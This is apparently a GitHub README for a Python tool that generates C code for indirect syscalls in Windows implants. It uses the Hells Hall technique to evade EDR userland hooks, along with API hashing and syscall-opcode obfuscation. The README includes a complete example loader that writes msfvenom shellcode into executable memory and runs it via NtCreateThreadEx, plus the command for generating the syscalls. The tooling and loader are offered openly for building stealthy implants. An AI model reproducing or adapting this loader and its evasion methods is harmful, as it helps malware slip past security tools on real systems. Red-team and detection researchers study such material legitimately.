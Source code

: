 
## About Project

This tool creates the C code files required to implement indirect syscalls in an implant. The tool uses the [Hells Hall](https://github.com/Maldev-Academy/HellHall) SSN resolution method to assist with userland hook evasion. At this time, the project only supports x64 & is intended be compiled with MSVC.

### Features

:heavy_check_mark: C Code  
:heavy_check_mark: API Hashing & dynamic hash generation  
:heavy_check_mark: Provides function prototypes for each system call, making implementation easier for the end user     
:heavy_check_mark: Userland hook evasion via hells hall  
:heavy_check_mark: Custom implmentation of various windows API calls for IAT evasion  
:heavy_check_mark: Randomized jump addressing for syscall instruction, hides true syscall ret address after syscall is executed  
:heavy_check_mark: Obfuscated syscall opcode to avoid 0x050F signature in binary, dynamically generated  

### How It Works

This tool generates the SYSTEM_CALLS_TABLES structure, a listing of SYSTEM_CALL structures. A list of hashes is also generated, containing each syscall hash in the order that the corresponding SYSTEM_CALL structure is indexed in the SYSTEM_CALL_TABLES structure. This hash list is defined in the macro `NT_API_FUNCTION_HASH_LIST`. The `InitializeSystemCalls()` will loop through the SYTSEM_CALL_TABLE structure & hash list, resolving each hash into it's SYSTEM_CALL corresponding structure using the HellsHall method implemented in the `GetSystemCall()` function.

Hells Hall evades userland hooking by detecting an EDR hooks `jmp` instruction within the syscall stub. If the instruction is detected, the code will search up & down in the syscall stubs to locate an unhooked syscall & retrieve the SSN from it. While searching syscalls, the amount of syscalls that have been searched is tracked. When an unhooked syscall is resolved, the amount of syscalls searched will be added or subtracted from the SSN that gets resolved, depening on the search being performed up or down in memory. This math will provide the true SSN of the hooked syscall. If the target syscall is not hooked, the SSN is directly retrieved. Next, a jmp address pointing to the syscall instruction is retrieved. When it's time to execute the syscall, Hells Hall will perform a jump to the syscall instruction so that RIP points to ntdll when the syscall completes execution.

## Credits

[Hells Hall](https://github.com/Maldev-Academy/HellHall)
- [mrd0x](https://github.com/mrd0x)
- [NUL0x4C](https://github.com/NUL0x4C)

[VX-API](https://github.com/vxunderground/VX-API)
- [vx-underground & friends](https://vx-underground.org/)

[NT API Dataset](https://github.com/reverseame/winapi-categories/tree/main)
- [reverseame](https://github.com/reverseame)

## Usage

Use of this tool is simple. Provide your api calls to the python script via the command line or in a file to generate the source code & add the code to your project. Include the `HellsHall.h` header file where you want to access the code.

### Example
1. Build the required source files for your desired system calls. The files will be deposited in the **Out** directory by default. Move these files to your project code. Alternatively, you can speficy a directory to write files to with **--outdir**.

```
python .\wizardcalls.py --apicalls NtAllocateVirtualMemory NtFreeVirtualMemory NtCreateThreadEx NtWriteVirtualMemory NtWaitForSingleObject
```

2. Include the `HellsHall.h` header file in your project to gain access to the system calls generated with this tool.

3. Use the `InitializeSystemCalls()` function to initialize your syscalls & begin calling your functions.

> [!IMPORTANT]
> InitializeSystemCalls() only needs to be called once. The function returns TRUE if the syscalls are successfully initialized & FALSE if they are not.


```c
#include "HellsHall.h"

int main() {
	/* Msf venom calc payload */
	char Shellcode[] = {
		0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
		0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52,
		0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
		0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed,
		0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88,
		0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
		0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48,
		0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1,
		0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
		0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49,
		0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a,
		0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
		0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00,
		0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b,
		0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
		0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47,
		0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e,
		0x65, 0x78, 0x65, 0x00
	};
	PVOID pShellcode = 0;
	SIZE_T BufferSize = sizeof(Shellcode);
	SIZE_T BytesWritten = 0;
	HANDLE hThread = 0;
	NTSTATUS Status = 0;

	/* Init system calls structure */
	InitializeSystemCalls();

	/* Allocate memory for payload */
	Status = NtAllocateVirtualMemory((HANDLE)-1, &pShellcode, 0, &BufferSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (Status != 0x0) {
		dbg_print("NtAllocate failed with error: 0x%0.8X\n", Status);
		return -1;
	}
	dbg_print("Allocated memory at 0x%p\n", pShellcode);
	
	/* Write payload to memory */
	Status = NtWriteVirtualMemory((HANDLE)-1, pShellcode, Shellcode, sizeof(Shellcode), &BytesWritten);
	if (Status != 0x0 || BytesWritten != sizeof(Shellcode)) {
		dbg_print("NtWrite failed with error: 0x%0.8X\n", Status);
		return -1;
	}
	dbg_print("Wrote %zu bytes of shellcode to memory at 0x%p\n", BytesWritten, pShellcode);

	/* Execute payload */
	Status = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, 0, (HANDLE)-1, (LPTHREAD_START_ROUTINE)pShellcode, 0, 0, 0, 0, 0, 0);
	if (Status != 0x0 || hThread == NULL) {
		dbg_print("NtCreateThreadEx failed with error: 0x%0.8X\n", Status);
		return -1;
	}
	dbg_print("Executed payload!\n");

	/* Wait for thread to finish */
	Status = NtWaitForSingleObject(hThread, FALSE, NULL);
	if (Status != 0x0) {
		dbg_print("NtWaitForSingleObject failed with error: 0x%0.8X\n", Status);
		return -1;
	}

	/* Release payload memory */
	Status = NtFreeVirtualMemory((HANDLE)-1, &pShellcode, &BufferSize, MEM_RELEASE);
	if (Status != 0x0) {
		dbg_print("NtFree failed with error: 0x%0.8X\n", Status);
		return -1;
	}
	dbg_print("Released memory at 0x%p\n", pShellcode);

	return 0;
}
```

### wizardcalls.py arguments
```
usage: wizardcalls.py [-h] [--seed SEED] [--algo {sdbm,djb2}] [--outdir OUTDIR] [--apicalls APICALLS [APICALLS ...] | --file FILE | --source_file SOURCE_FILE] [--seperate_structures]

options:
  -h, --help            show this help message and exit
  --seed SEED           Seed for the hashing algorithm. Generates a random seed if none is provided.
  --algo {sdbm,djb2}    A hashing algorithm to use. Defaults to sdbm.
  --outdir OUTDIR       A directory to write the source files to. Defaults to "Out" directory.
  --apicalls APICALLS [APICALLS ...]
                        List of win32 native api calls to generate the template for. See https://www.geoffchappell.com/studies/windows/win32/ntdll/api/native.htm for more information on the win32 native api.
  --file FILE           Path to file containing a list of api calls. Use a new line [\n] to seperate each api call.
  --source_file SOURCE_FILE
                        A C source file using the NT API. Under development. Not available at the moment.
  --seperate_structures
                        Create the NT / Win32 structure file seperately from the hells hall header file
```

# To Do
- Add djb2 algorithm compatibility
- Parse ntapi calls from source file
- x86 support